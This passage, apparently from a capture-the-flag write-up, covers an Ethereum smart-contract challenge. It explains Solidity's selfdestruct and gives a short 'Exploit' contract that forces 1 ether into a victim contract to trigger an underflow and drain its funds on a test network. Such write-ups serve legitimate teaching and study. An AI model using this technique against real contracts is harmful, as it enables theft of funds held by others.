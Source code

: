 ![image](/assets/img/hackthebox/bitlab/docSelf.png)

according to solidity documention  the contract that  performs the `selfdestruct` operation the remaining ether stored at that contract will to a designated target and then the storage and code is removed from the state.

so we can write a malicious contract that store `1 Ether` and then destroy its self by perform `selfdestruct` operation and set our the target  the contract we want to increase its fund to force it receive ethers so we can exploit underflow vulnerability and steal all the money.

# War Of Contracts ¯\_(ツ)_/¯

```javascript
pragma solidity ^0.4.21;

contract Exploit {
    
    constructor() payable public {
        require(msg.value == 1 ether); // fund contract with 1 Ether
    }
    
    function kill(address _victim) public { // set the receiver target to receive the expected ether
        selfdestruct(_victim);
    } 
    
}
```

so now will make contract attack another contract remotely after deploying it into the same network `(ropentest network)` that our target contract is locates in.
